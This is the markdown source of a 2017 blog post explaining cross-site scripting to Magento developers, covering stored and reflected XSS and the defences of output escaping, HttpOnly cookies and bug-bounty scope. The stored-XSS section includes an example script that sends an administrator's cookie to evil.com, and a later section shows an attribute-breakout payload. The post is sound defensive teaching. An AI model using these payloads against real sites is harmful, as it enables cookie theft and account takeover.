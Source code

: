 ```yaml
---
layout: blog-single
title: An Intro To XSS For Magento Developers
description: In this post, I cover the basics of XSS, specifically as they relate to Magento
date: June 15, 2017
image: /img/blog/magento-xss-intro/magento-xss@2x.jpg
tags: [magento, security]
ad: domain-clamp-ad-b.html
---
```


XSS is an abbreviation which stands for "Cross Site Scripting". It is a classification of cyber-attack which is currently listed as #3 on [the OWASP top 10](https://www.owasp.org/index.php/Category:OWASP_Top_Ten_Project). In this post, I'll explain, in detail, what XSS is, and outline what you need to know about it, as a Magento developer

<!-- excerpt_separator -->

### The Idea

The idea behind XSS, is that an attacker executes unauthorized malicious scripts in the context of another user's session. I find the name "cross site scripting" a bit misleading as there is not always a "cross site" involved in the attack. Often the malicious scripting is handled inline, rather than a `<script>` referencing an external site ("cross site"). As such, I prefer the name "script injection". However, this type of attack is universally known as XSS, so that's the name I'll use here.

### An Example

Let me give you an example. When an administrator views the dashboard of the admin panel on both Magento 1 and 2, they'll see a listing of search recent search terms.

<img
  class="rounded shadow"
  src="/img/blog/magento-xss-intro/magento2-dashboard-recent-search-terms@1x.jpg"
  srcset="/img/blog/magento-xss-intro/magento2-dashboard-recent-search-terms@1x.jpg 1x, /img/blog/magento-xss-intro/magento2-dashboard-recent-search-terms@2x.jpg 2x"
  alt="A screenshot showing the recent search terms widget in the Magento 2 admin panel dashboard">

This is just a feed of terms typed into the search bar on a Magento site.

What if, as an attacker I executed the following search...

<img
  class="rounded shadow"
  src="/img/blog/magento-xss-intro/magento-xss@1x.jpg"
  srcset="/img/blog/magento-xss-intro/magento-xss@1x.jpg 1x, /img/blog/magento-xss-intro/magento-xss@2x.jpg 2x"
  alt="Magento XSS">

If Magento did nothing to protect against XSS, this would get stored in the database. Then, the next time an administrator logged into the admin panel my search term would be rendered in this feed. 

Again, if Magento took no action to prevent against XSS \<script>document.write('\<img src="http://evil.com/?cookie=' + document.cookie + '">')\</script> would not be rendered as text, but would actually be executed as JavaScript. This script would add an image to the page that would wind up sending a request to evil.com (presumably a site controlled by the attacker) along with the admininstrator's cookie.

Then, the attacker would be able to access the Magento admin panel without any authentication, simply by supplying the administrator cookie with their request.

### What Can Unauthorized Scripts Do

Cookie theft is the classic example of XSS. However, Magento provides a layer of protection against that via its "Use HTTP Only" cookie setting. I have [an entire blog post devoted to that setting]({{ site.baseurl }}{%  link _posts/2017-03-08-magentos-use-http-only-cookie-setting.md %}), but the tl;dr; is that it sets cookies on the browser using [the `HttpOnly` flag](https://developer.mozilla.org/en-US/docs/Web/HTTP/Cookies#Secure_and_HttpOnly_cookies), which prevents them from being accessed by scripts. You should use it.

 Still, there are other bad things that attackers can do via XSS. For example, they could use `window.location` to redirect you to a phishing site that poses as an official Magento site and prompts you enter your administrator user name and password. They could also read the referrer URL which will disclose your admin front name and read your admin user name and form key from the document. 
 
Suffice it to say, XSS is still a concern even with cookies set to `HttpOnly` and is something you want to protect against.

### Different Types Of XSS

There are two different classifications of XSS, stored XSS and reflected XSS. The example I've just described is classified as stored XSS, because the content used to carry out the attack has been stored in the database.

Reflected XSS, on the other hand, is XSS that happens as a result of data in the URL request string. For example, what if an attacker could trick you to click on a link with the malicious payload in the URL.

<img
  class="rounded shadow"
  src="/img/blog/magento-xss-intro/reflected-xss@1x.jpg"
  srcset="/img/blog/magento-xss-intro/reflected-xss@1x.jpg 1x, /img/blog/magento-xss-intro/reflected-xss@2x.jpg 2x"
  alt="Magento Reflected XSS">

Without any protection against XSS this malicious script will be executed, and will send your frontend cookie to evil.com. The attacker could then gain access to your account and place fraudlent orders using your saved credit card.

While reflected XSS is not good, stored XSS is typically considered more severe as the attacker does not need to trick the victim into taking a specific action.

### The Solution

There are two solutions for XSS, input validation and output escaping. For example, Magento could look at the search term, see the `<script>` tag any reject is as invalid.

In this example, however, search queries including the string \<script> **are** considered valid queries by Magento. So the next solution is output escaping.

The idea here is to convert the word `<script>` to `&lt;script&gt` before outputing. Then, when rendered by the browser the user will see the word "\<script>" as a string of text and the script will not be executed. This strategy is employed by Magento to protect against both the stored, and reflected example described earlier.

Input validation and output escaping are not mutually exclusive. You should be doing both.

### How Do We Do This In Magento

Magento provides documentation on output escaping for Magento 2 [here](http://devdocs.magento.com/guides/v2.0/frontend-dev-guide/templates/template-security.html). When outputting untrusted text, you should use `escapeHtml`. This will use the PHP function `htmlspecialchars` to convert `<` to `&lt;`.

Additionally, when outputting untrusted data in HTML attributes, we need to be careful. For example, the attacker could use the following query to break out of an attribute and execute scripts.

`Shoes" onhover="alert('xss')"`

For HTML attributes you should use `quoteEscape` which will escape both single and double quotes.

### In Scope vs. Out Of Scope XSS

According to [Magento's official bug bounty](https://bugcrowd.com/magento), protecting against XSS by administrators to front end users is out of scope. It is an acknowledged part of the platform that administrators are able to output and have rendered scripts during front end users sessions.

> Cross-Site Scripting (XSS) bugs in the admin interface (URLs containing /admin/) where the code is only executed in front end context but not in admin context are excluded. Merchants are explicitly allowed to use active content when designing their stores, so this is a required feature. The admin XSS capability does not give the administrator any additional powers to do harm beyond what other administrative features already allow

However, administrators should non be able to render and have executed scripts in the context of other administrator users as this could facilitate privilege escalation.

> XSS issues where an administrator with limited access can impact other administration pages are valid.

Additionally, as we've seen in the example of this post, front end users should certainly not be able to execute XSS in the context of admin user sessions.

### Conclusion

I hope this post came in useful for some people. If you have any questions or comments, feel free to drop a note below, or, as always, you can reach me on [Twitter](http://twitter.com/maxpchadwick) as well.